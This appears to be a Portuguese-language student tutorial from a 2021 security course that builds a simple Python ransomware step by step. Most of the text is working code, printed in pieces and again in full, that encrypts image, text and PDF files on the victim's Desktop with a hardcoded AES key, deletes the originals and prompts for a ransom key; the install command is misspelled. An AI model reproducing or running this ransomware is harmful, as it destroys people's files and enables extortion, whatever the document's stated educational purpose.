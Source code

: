 # Ransomware

Hoje faremos um ransomware simples, que é um tipo de vírus que bloqueia dados do computador da vitima e pede resgate para que eles voltem a ser acessíveis. 


     Começaremos  importando as bibliotecas necessárias para a criação do código;

para isso vá em seu terminal de preferência e importe a biblioteca "pyaes" com:

```bash
pip isntall pyes
```

     

E agora coloque em seu código as bibliotecas necessárias: 

```python
import os
import glob
import pyaes
from pathlib import Path
```

     Coloque agora as extensões que deseja criptografar:

```python
lista_arq = ["*.txt"] #*.jpg","*.txt","*.pdf","*.png","*.mp3","*.mp4
```

     Usando a biblioteca **path** e **os** caminhamos pelo sistema (Desktop) para fazer a verificação dos arquivos:

```python
try:
    desktop = Path.home() / "Desktop"

except Exception:
    pass

os.chdir(desktop)
```

     Aqui definimos a função ***`encode`*** para criptografar os arquivos mais tarde, e começamos a usar a biblioteca **PyAES** para isso, apagamos o arquivo original e substituímos por um novo criptografado, e também estabelecemos uma chave de 16bits para recuperação dos arquivos:

```python
def encode():
    for files in lista_arq:
        for format_file in glob.glob(files):
            print(format_file) 
            f = open(f'{desktop}//{format_file}', 'rb')
            file_data = f.read()
            f.close()
		
		#Apagando arquivo original
            os.remove(f'{desktop}//{format_file}')
            key = b"1a2b3c4d5e7f8g9h"
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

                #Salvando novo arquivo
            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}//{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
```

     Logo após criamos a função ***`decode`*** que tem o papel de descriptografar os arquivos fazendo uso da chave que estabelecemos a cima:

```python
def decode(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]

            dnew_file = open(f'{desktop}//{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida!')
```

     Agora vamos para a parte que interessa, onde ransomware age, fazemos a chamada da função ***`encode`*** para criptografar e depois pedimos a chave, se estiver correta chamamos a função ***`decode`*** para que os arquivos sejam descriptografados:

```python
if __name__ == '__main__':
    encode()
    if encode:
        key = input('Seus arquivos foram criptografados, insira a chave para liberação:')
        if key == '1a2b3c4d5e7f8g9h':
            decode(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}//{del_file}')
        else:
            print('Chave inválida!')
```

E assim temos nosso Ransomware pronto para uso educacional.

Código completo:

```python
import os
import glob
import pyaes
from pathlib import Path

lista_arq = ["*.jpg","*.txt", "*.pdf"] #*.jpg","*.txt","*.pdf","*.png","*.mp3","*.mp4

#Entra no desktop e faz a verificacao
try:
    desktop = Path.home() / "Desktop"

except Exception:
    pass

os.chdir(desktop)

def encode():
    for files in lista_arq:
        for format_file in glob.glob(files):
            print(format_file) 
            f = open(f'{desktop}//{format_file}', 'rb')
            file_data = f.read()
            f.close()

            os.remove(f'{desktop}//{format_file}')
            key = b"1a2b3c4d5e7f8g9h"
            aes = pyaes.AESModeOfOperationCTR(key)
            crypto_data = aes.encrypt(file_data)

                #Salvando novo arquivo
            new_file = format_file + ".ransomcrypter"
            new_file = open(f'{desktop}//{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()

def decode(decrypt_file):
    try:
        for file in glob.glob('*.ransomcrypter'):

            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)
            decrypt_data = daes.decrypt(file_data)

            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]

            dnew_file = open(f'{desktop}//{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida!')

if __name__ == '__main__':
    encode()
    if encode:
        key = input('Seus arquivos foram criptografados, insira a chave para liberação:')
        if key == '1a2b3c4d5e7f8g9h':
            decode(key)
            for del_file in glob.glob('*.ransomcrypter'):
                os.remove(f'{desktop}//{del_file}')
        else:
            print('Chave inválida!')
```

Development and Code for Security - Fabio Cabrini

Global Solutions - 2021

Grupo G

Gabriel Martire Bega         87442    
Enzo Aparecido Viana         88883   
Arthur de Oliveira           89187    
Lucas Venancio Coutinho      89257   
Weslley Leandro Ribeiro      88925   
Vinicius Fernandes           89369
